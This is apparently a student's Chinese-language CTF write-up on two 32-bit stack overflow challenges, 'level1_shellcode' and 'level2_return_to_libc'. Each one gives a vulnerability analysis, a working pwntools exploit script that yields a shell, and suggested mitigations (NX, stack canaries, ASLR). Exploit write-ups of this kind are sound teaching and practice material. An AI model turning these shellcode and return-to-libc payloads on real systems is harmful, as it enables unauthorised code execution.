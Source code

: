 # ID：陈禹诺
## 题目名
<h2>level1_shellcode</h2>
### 漏洞分析

![avatar](level1.png)

<h4><strong>checksec</strong> 发现什么保护都没没有开启,执行程序发现貌似提供了一个地址，而且三次执行还都在变化,由于是32位文件，所以丢进IDA中,F5</h4>
![avatar](7f9e11c2bc84884de146673bdc1d0a5.png)
<h4>在IDA ，看到先进入vunlnerable函数,后回显一句话进入vunlnerable,看看</h4>
![avatar](00ad2f69d80ed07b6343217796e2263.png)
![avatar](1df202b8523f64b146a9677403649f1.png)


<h4>看到buf,应该是栈上的变量，可知偏移量：(0x88+4),之后再填返回地址，由于可填充的字节较长，且没有任何保护，加之ida中没看到system('/bin/sh'),所以用shellcode进行攻击，即在栈区填充shellcode的代码，之后再执行，所以需要执行代码的起始地址，即buf的首地址</h4>
### 漏洞利用
代码


	Python
	from pwn import *

	context.log_level='debug'
	io = process('./level1_shellcode')
	shellcode = asm(shellcraft.sh())
	buffer=io.recvline()[14:-2]
	buf_addr = int(buffer,16)
	payload = shellcode + '\x90' * (0x88+0x4-len(shellcode)) + p32(buf_addr)
	io.sendline(payload)
	io.interactive()
	io.close()

![avatar](level11.png)

### 漏洞防护
<h4>防护手段：1.可以设置buf所在的区域（栈）不可执行，即使栈只用来存储数据，而不能执行这些数据（执行的时候是当指令了），可以开启NX保护</h4>
  <h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护</h4>
 <h4>3.编译时使用指令，令栈不可执行 4.开启ALSR，是堆栈地址随机化，从而无法确定攻击代码的其实地址，ret的覆写值难以确定。</h4>
## 题目名
<h2>level2_return_to_libc</h2>
### 漏洞分析


![avatar](level2.png)


<h4><strong>checksec</strong>开启NX,shellcode 得凉，执行程序发现可以输入，，有与可执行文件名含libc，<strong>file</strong>一下，是动态链接文件，ldd查看依赖的共享库，之后放到IDA中，可以看到乍一看level1很像，但不一样，一开始就调用了libc库中的system函数，自然想到可能有/bin/sh,Shift F12看到/bin/sh在.data</h4>



![avatar](342b2aa1f47faddb88cec5a2d246d8c.png)


![avatar](178e3f94079c290771e4e36200ba860.png)
<h4>利用ROP，objdump分别查找对应地址</h4>

![avatar](level22.png)

![avatar](1919808-20200218101903926-1643655401.png)

<h4>借别的大佬的图理解这个漏洞</h4>
### 漏洞利用
代码
	from pwn import*

	context.log_level='debug'

	p=process('./level2_return_to_libc')


	binsh_addr=0x0804a024  #which is in .data ,it may be in libc.so at first
	#system@plt=0x08048320
	system_plt=0x08048320
	payload=(0x88+0x4)*'a'+p32(system_plt)+'cccc'+p32(binsh_addr)

	p.recvuntil('\n')
	p.send(payload)
	p.interactive()

![avatar](level23.png)

### 漏洞防护

<h4>1.ALSR开启，是动态库的装载地址不确定，从而难以确定函数地址 </h4>
<h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护，进行栈的保护，以防止篡改ret_address</h4>

